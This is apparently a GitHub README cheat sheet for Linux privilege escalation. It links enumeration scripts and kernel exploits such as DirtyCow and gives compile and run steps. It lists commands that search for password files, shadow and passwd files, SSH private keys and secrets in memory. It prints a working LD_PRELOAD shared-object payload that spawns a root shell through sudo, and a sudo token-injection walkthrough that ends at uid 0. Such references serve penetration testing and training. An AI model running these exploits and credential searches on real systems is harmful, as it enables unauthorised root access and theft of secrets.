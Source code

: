 # linux-priv-Esc

# GTFOBins  
https://gtfobins.github.io


# Initial Enumeration
uname -a, netstat -ano, history

# Automated tools 
1) Linux-Exploit-Suggester  https://github.com/mzet-/linux-exploit-suggester
2) Linux-Privilege-Script https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
3) Linux-Enumeration https://github.com/rebootuser/LinEnum


# Kernal-Exploit 

1) CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
Code: https://github.com/FireFart/dirtycow/blob/master/dirty.c

compile:- gcc -pthread dirty.c -o dirty -lcrypt

Then run the newly create binary by either doing:- "./dirty" or "./dirty my-new-password"

2) CVE-2010-3904 (RDS)
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
https://www.exploit-db.com/exploits/15285/

3) CVE-2010-4258 (Full Nelson)
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)
https://www.exploit-db.com/exploits/15704/

4) CVE-2012-0056 (Mempodipper)

Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
https://www.exploit-db.com/exploits/18411


# Weak File Permission 

ls -l | grep shadow 

ls -l | grep passwd

# File Containing Password

grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null

find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

# Old passwords in /etc/security/opasswd

/etc/security/opasswd 


# Last edited files
*Files that were edited in the last 10 minutes*

find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

# In memory passwords
strings /dev/mem -n10 | grep -i PASS

# Find sensitive files
$ locate password | more    

/boot/grub/i386-pc/password.mod

/etc/pam.d/common-password

/etc/pam.d/gdm-password

/etc/pam.d/gdm-password.original

/lib/live/config/0031-root-password

# SSH Key

*Sensitive files*

find / -name authorized_keys 2> /dev/null

find / -name id_rsa 2> /dev/null


# SUDO

* NOPASSWD Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.*

$ sudo -l

# LD_PRELOAD and NOPASSWD
If LD_PRELOAD is explicitly defined in the sudoers file

Defaults        env_keep += LD_PRELOAD

Compile the shared C code below on victim machine with gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
Execute any binary with the LD_PRELOAD to spawn a shell : sudo LD_PRELOAD=<full_path_to_.so_file> <program>, e.g: sudo LD_PRELOAD=/tmp/shell.so whoami


# sudo_inject
Using https://github.com/nongiach/sudo_inject

$ sudo whatever

[sudo] password for user:    

# Press <ctrl>+c since you don't have the password. 
# This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
	
Slides of the presentation : https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf
